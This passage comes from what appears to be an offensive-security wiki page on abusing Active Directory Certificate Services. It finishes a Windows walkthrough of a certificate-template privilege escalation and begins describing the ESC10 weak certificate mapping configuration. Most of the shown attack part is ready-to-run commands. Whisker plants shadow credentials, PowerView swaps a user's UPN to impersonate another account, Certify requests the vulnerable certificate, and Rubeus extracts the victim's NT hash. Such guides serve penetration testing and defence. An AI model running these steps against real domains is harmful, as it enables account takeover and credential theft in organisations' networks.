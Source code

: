 First, the user2's credentials are needed. It can be retrieved via a [Shadow Credentials](../kerberos/shadow-credentials.md) attack, for example. Here just the `msDs-KeyCredentialLink` modification part with [Whisker](https://github.com/eladshamir/Whisker):

```powershell
Whisker.exe add /target:"user2" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
```

Then, the `userPrincipalName` of user2 is changed to user3 with [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
```

The vulnerable certificate can be requested in a user2 session.

```powershell
Certify.exe request /ca:'domain\ca' /template:"Vulnerable template"
```

The user2's UPN is changed back to something else.

```powershell
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@dmain.local'} -Verbose
```

Now, authenticating with the obtained certificate will provide the user3's NT hash during [UnPac the hash](../kerberos/unpac-the-hash.md). This action can be realised with [Rubeus](https://github.com/GhostPack/Rubeus). The domain must be specified since it is not present in the certificate.

```powershell
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"domain.local" /dc:"DOMAIN_CONTROLLER" /show
```

:::


### (ESC10) Weak certificate mapping 

To understand this privilege escalation, it is recommended to know how certificate mapping is performed. It is presented in [this section](certificate-templates.md#certificate-mapping).

This ESC refers to a weak configuration of the registry keys:

#### Case 1

 * `StrongCertificateBindingEnforcement` set to `0`, meaning no strong mapping is performed
 * A template that specifiy client authentication is enabled (any template, like the built-in `User` template)
 * `GenericWrite` right against any account A to compromise any account B

> [!WARNING]
> At the time of writting (06/08/2022), there is no solution as a low privileged user to read the `StrongCertificateBindingEnforcement` value. It is worth to try the attack hopping the key is misconfigured.

::: tabs
